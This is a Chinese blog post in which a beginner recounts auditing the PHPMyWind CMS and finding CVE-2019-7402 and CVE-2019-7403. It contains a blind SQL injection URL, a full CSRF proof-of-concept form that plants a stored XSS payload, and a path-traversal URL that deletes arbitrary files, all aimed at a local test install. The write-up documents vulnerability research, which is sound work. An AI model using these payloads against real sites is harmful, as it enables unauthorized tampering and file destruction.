 正式学习代码审计一周，总算有点小收获了呢，好开森
CVE-2019-7402 CVE-2019-7403
打算写篇文章纪念一下，文章水平有限，还请师傅们多多指教～
学习代码审计这一周，首先花了一天时间复习了下php(php基础辣鸡嘚很233)，用一天时间看了dvwa的源码，然后一天多时间大概看了下bluecms，然后找到了phpmywind这个cms，没有框架又很小，还蛮适合初学者的。
下载源码就扔到Seay里面了，一堆注入

![图片](https://uploader.shimo.im/f/3PSZCCO8IFcAocrl.png!thumbnail)

先随便点开一个跟一下 发现每个参数的初始化都是在/include/common.inc.php里面，都会加上addslashes转义。

![图片](https://uploader.shimo.im/f/FlxaKxVCiY0XHG2g.png!thumbnail)

又没有宽字节或者其它的编码，基本上杜绝了非整型的注入，然后再看看int型的注入，在所有的前台查询中，都做了类型转换...

![图片](https://uploader.shimo.im/f/Av3OSVUZBcYike0U.png!thumbnail)

但是在所有后台查询int型参数没有做类型转换,但是所有的sql查询斗调用了Mysql类,里面自定义了CheckSql() 方法，主要是过滤了select sleep load_file into file等关键字，基于黑名单，总是可以绕过的，从网上搜了一下，构造出这样一个payload
>http://127.0.0.1/phpmywind/admin/admanage.php?tid=2-(if(53=(if(substr((rpad(version(),1,1)),1,1)=char(61),1,0)),1,0)) 

rpad函数返回很多行，需要group_concat函数进行处理，group_concat被过滤了，到此，我放弃尝试了233
然后继续去读源码，在footer.php文件中发现了GetQQ() 这个函数，跟进去看，没有做一点过滤

![图片](https://uploader.shimo.im/f/ZaRJ4uXjvPYjx0Wz.png!thumbnail)

但是这个参数的修改是需要后台管理员，但是整个cms没有做csrf的防护，构建个csrf的poc
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/phpmywind/admin/web_config.php" method="POST">
      <input type="hidden" name="cfg&#95;webname" value="�&#136;&#145;�&#154;&#132;�&#189;&#145;�&#171;&#153;" />
      <input type="hidden" name="cfg&#95;weburl" value="http&#58;&#47;&#47;127&#46;0&#46;0&#46;1" />
      <input type="hidden" name="cfg&#95;webpath" value="&#47;phpmywind" />
      <input type="hidden" name="cfg&#95;author" value="" />
      <input type="hidden" name="cfg&#95;generator" value="PHPMyWind&#32;CMS" />
      <input type="hidden" name="cfg&#95;seotitle" value="" />
      <input type="hidden" name="cfg&#95;keyword" value="" />
      <input type="hidden" name="cfg&#95;description" value="" />
      <input type="hidden" name="cfg&#95;copyright" value="Copyright&#32;�&#169;&#32;2015&#32;&#45;&#32;2018&#32;phpMyWind&#46;com&#32;All&#32;Rights&#32;Reserved" />
      <input type="hidden" name="cfg&#95;hotline" value="400&#45;800&#45;8888" />
      <input type="hidden" name="cfg&#95;icp" value="" />
      <input type="hidden" name="cfg&#95;webswitch" value="Y" />
      <input type="hidden" name="cfg&#95;switchshow" value="�&#175;&#185;�&#184;&#141;�&#183;�&#188;&#140;�&#189;&#145;�&#171;&#153;�&#187;&#180;�&#138;&#164;�&#188;&#140;�&#175;&#183;�&#168;&#141;�&#144;&#142;�&#153;&#187;�&#189;&#149;�&#128;&#130;&lt;br&#32;&#47;&gt;�&#189;&#145;�&#171;&#153;�&#187;&#180;�&#138;&#164;�&#156;&#159;�&#151;&#180;�&#175;&#185;�&#130;&#168;�&#128;&#160;�&#136;&#144;�&#154;&#132;�&#184;&#141;�&#190;&#191;�&#188;&#140;�&#175;&#183;�&#176;&#133;�&#167;&#163;�&#188;&#129;" />
      <input type="hidden" name="action" value="update" />
      <input type="hidden" name="cfg&#95;upload&#95;img&#95;type" value="gif&#124;png&#124;jpg&#124;bmp" />
      <input type="hidden" name="cfg&#95;upload&#95;soft&#95;type" value="zip&#124;gz&#124;rar&#124;iso&#124;doc&#124;xls&#124;ppt&#124;wps&#124;txt" />
      <input type="hidden" name="cfg&#95;upload&#95;media&#95;type" value="swf&#124;flv&#124;mpg&#124;mp3&#124;rm&#124;rmvb&#124;wmv&#124;wma&#124;wav" />
      <input type="hidden" name="cfg&#95;max&#95;file&#95;size" value="2097152" />
      <input type="hidden" name="cfg&#95;imgresize" value="Y" />
      <input type="hidden" name="cfg&#95;countcode" value="" />
      <input type="hidden" name="cfg&#95;qqcode" value="&quot;&gt;&lt;img&#32;src&#61;1&#32;onerror&#61;alert&#40;1&#41;&gt;&lt;img&#32;src&#61;&quot;aaa" />
      <input type="hidden" name="action" value="update" />
      <input type="hidden" name="cfg&#95;mysql&#95;type" value="mysqli" />
      <input type="hidden" name="cfg&#95;pagenum" value="20" />
      <input type="hidden" name="cfg&#95;timezone" value="8" />
      <input type="hidden" name="cfg&#95;mobile" value="Y" />
      <input type="hidden" name="cfg&#95;member" value="Y" />
      <input type="hidden" name="cfg&#95;oauth" value="Y" />
      <input type="hidden" name="cfg&#95;comment" value="Y" />
      <input type="hidden" name="cfg&#95;maintype" value="N" />
      <input type="hidden" name="cfg&#95;typefold" value="N" />
      <input type="hidden" name="cfg&#95;quicktool" value="Y" />
      <input type="hidden" name="cfg&#95;diserror" value="Y" />
      <input type="hidden" name="action" value="update" />
      <input type="hidden" name="cfg&#95;isreurl" value="N" />
      <input type="hidden" name="cfg&#95;reurl&#95;index" value="index&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;about" value="&#123;about&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;news" value="&#123;news&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;newsshow" value="&#123;newsshow&#125;&#45;&#123;cid&#125;&#45;&#123;id&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;product" value="&#123;product&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;productshow" value="&#123;productshow&#125;&#45;&#123;cid&#125;&#45;&#123;id&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;case" value="&#123;case&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;caseshow" value="&#123;caseshow&#125;&#45;&#123;cid&#125;&#45;&#123;id&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;join" value="&#123;join&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;joinshow" value="&#123;joinshow&#125;&#45;&#123;id&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;message" value="&#123;message&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;contact" value="&#123;contact&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;soft" value="&#123;soft&#125;&#45;&#123;cid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;softshow" value="&#123;softshow&#125;&#45;&#123;cid&#125;&#45;&#123;id&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;goods" value="&#123;goods&#125;&#45;&#123;cid&#125;&#45;&#123;tid&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;goodsshow" value="&#123;goodsshow&#125;&#45;&#123;cid&#125;&#45;&#123;tid&#125;&#45;&#123;id&#125;&#45;&#123;page&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;vote" value="&#123;vote&#125;&#45;&#123;id&#125;&#46;html" />
      <input type="hidden" name="cfg&#95;reurl&#95;custom" value="&#123;file&#125;&#46;html" />
      <input type="hidden" name="action" value="update" />
      <input type="hidden" name="cfg&#95;auth&#95;key" value="TzdVWeg0DGP8bRO6" />
      <input type="hidden" name="cfg&#95;alipay&#95;uname" value="" />
      <input type="hidden" name="cfg&#95;alipay&#95;partner" value="" />
      <input type="hidden" name="cfg&#95;alipay&#95;key" value="" />
      <input type="hidden" name="cfg&#95;qq&#95;appid" value="" />
      <input type="hidden" name="cfg&#95;qq&#95;appkey" value="" />
      <input type="hidden" name="cfg&#95;weibo&#95;appid" value="" />
      <input type="hidden" name="cfg&#95;weibo&#95;appkey" value="" />
      <input type="hidden" name="action" value="update" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
一个首页存储型xss就完成啦

![图片](https://uploader.shimo.im/f/dNr7tm7QVm0JfTB2.png!thumbnail)

继续审计，找到了database_backup.php 删除文件操作没有做参数过滤 
![图片](https://uploader.shimo.im/f/yVnXZ8CBJMkt9neF.png!thumbnail)
![图片](https://uploader.shimo.im/f/NdhhTKvv3JcbvMr5.png!thumbnail)![图片](https://uploader.shimo.im/f/mYVA99QL8W8ptvRl.png!thumbnail)
构造url
>http://127.0.0.1:8080/phpmywind/admin/database_backup.php?action=import&dopost=deldir&tbname=../../../../../../../bbb

成功删除C盘文件
![图片](https://uploader.shimo.im/f/pjF5RZicTSwBah80.png!thumbnail)

在最后在/admin/goods_update.php处发现一处后台getshell，问题出在common.func.php String2Array 本来超级高兴的，可是网上一看已经被提交过了2333 附上链接 [https://github.com/panghusec/exploit/issues/4](https://github.com/panghusec/exploit/issues/4)

![图片](https://uploader.shimo.im/f/GeTwwbqOl7gty606.png!thumbnail)

感觉整体审计的也差不多了，这个年过的很有意思(虽说有点宅233) 
新年快乐 keep fighting~
